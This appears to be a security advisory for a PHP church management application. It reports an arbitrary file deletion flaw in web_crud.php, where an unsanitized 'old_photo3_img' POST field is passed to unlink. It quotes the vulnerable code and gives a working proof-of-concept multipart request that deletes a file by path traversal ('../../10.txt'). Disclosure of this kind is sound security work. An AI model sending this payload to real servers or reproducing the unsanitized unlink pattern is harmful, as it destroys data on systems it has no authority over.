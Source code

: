 ### Vulnerability file address

In line 284 of `church/admin/app/web_crud.php`, `@unlink("../../assets/images/" . $_POST['old_photo3_img']);`,` $_POST['old_photo3_img']` parameters have not been restricted, which causes any file to be deleted

```php
if ($_FILES['photo3']['tmp_name'] != '') {
            $img3 = generateUniqueFilename($_FILES['photo3']);
            $filepath = "../../assets/images/" . $img3;

            if (move_uploaded_file($_FILES["photo3"]["tmp_name"], $filepath)) {
                @unlink("../../assets/images/" . $_POST['old_photo3_img']);
            }
        } 
```

### POC

```http
POST /church/admin/app/web_crud.php HTTP/1.1
Host: www.church.net
Connection: close
Cookie: PHPSESSID=hl5noegsdjn1ru7skoi8tmqco3
Upgrade-Insecure-Requests: 1
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryTZGvWJmfBtMK9O8p
Content-Length: 374

------WebKitFormBoundaryTZGvWJmfBtMK9O8p
Content-Disposition: form-data; name="update5"

1
------WebKitFormBoundaryTZGvWJmfBtMK9O8p
Content-Disposition: form-data; name="old_photo3_img"

../../10.txt
------WebKitFormBoundaryTZGvWJmfBtMK9O8p
Content-Disposition: form-data; name="photo3";filename="aaa.php"

this is test
------WebKitFormBoundaryTZGvWJmfBtMK9O8p--
```

### Attack results pictures

First, we create a `10.txt` file in the `church/` directory

![image-20250504212400861](https://raw.githubusercontent.com/Amyppp/imgs/main/vuln/202505042124902.png)

Then we execute the above poc to attack

![image-20250504212432138](https://raw.githubusercontent.com/Amyppp/imgs/main/vuln/202505042124166.png)

Files are deleted after the attack is successful

![image-20250504212422097](https://raw.githubusercontent.com/Amyppp/imgs/main/vuln/202505042124130.png)